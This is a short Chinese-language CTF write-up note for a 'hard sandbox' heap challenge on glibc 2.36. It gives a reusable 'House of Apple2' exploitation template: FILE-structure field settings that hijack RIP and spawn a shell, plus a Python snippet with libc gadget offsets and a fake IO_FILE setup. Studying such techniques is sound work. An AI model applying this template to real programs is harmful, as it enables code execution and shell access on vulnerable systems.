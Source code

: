 ```yaml
---
data: 2024-09-10 11:41
challenge: hard sandbox
tags:
  - ptrace
  - seccomp-bypass
---
```


其实是 shellcode 题，用 2.36 版本堆包装了一下，这里可以当成 house of apple2 的板子：

### Apple2 板子

> [!quote]
> 对fp的设置如下：
>
> - `_flags` 设置为 `~(2 | 0x8 | 0x800)`，如果不需要控制 rdi，设置为0即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有两个空格
> - `vtable` 设置为 `_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap` 地址（加减偏移），使其能成功调用 `_IO_wfile_overflow` 即可
> - `_wide_data` 设置为可控堆地址 A，即满足 `*(fp + 0xa0) = A`
> - `_wide_data->_IO_write_base` 设置为 0，即满足 `*(A + 0x18) = 0`
> - `_wide_data->_IO_buf_base` 设置为 0，即满足 `*(A + 0x30) = 0`
> - `_wide_data->_wide_vtable` 设置为可控堆地址 B，即满足 `*(A + 0xe0) = B`
> - `_wide_data->_wide_vtable->doallocate` 设置为地址 C 用于劫持 RIP，即满足 `*(B + 0x68) = C`
> - **`_lock` 设置为可写地址；`mode` 设置大于 0**
>
> 函数的调用链如下：
>
> ```c
> _IO_wfile_overflow
>     _IO_wdoallocbuf
>         _IO_WDOALLOCATE
>             *(fp->_wide_data->_wide_vtable + 0x68)(fp)
> ```

板子如下：

```python
"""
1630aa:>  48 8b 6f 48          >  mov    rbp,QWORD PTR [rdi+0x48]
1630ae:>  48 8b 45 18          >  mov    rax,QWORD PTR [rbp+0x18]
1630b2:>  4c 8d 6d 10          >  lea    r13,[rbp+0x10]
1630b6:>  c7 45 10 00 00 00 00 >  mov    DWORD PTR [rbp+0x10],0x0
1630bd:>  4c 89 ef             >  mov    rdi,r13
1630c0:>  ff 50 28             >  call   QWORD PTR [rax+0x28]
"""
magic_gadget = libc_base + 0x1630AA
leave_ret = libc_base + 0x0000000000050877
add_rsp_0x38_ret = libc_base + 0x0000000000054BF4
pop_rdi_ret = libc_base + 0x0000000000023B65
pop_rsi_ret = libc_base + 0x00000000000251BE
pop_rdx_ret = libc_base + 0x0000000000166262
pop_rax_ret = libc_base + 0x000000000003FA43

_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps
```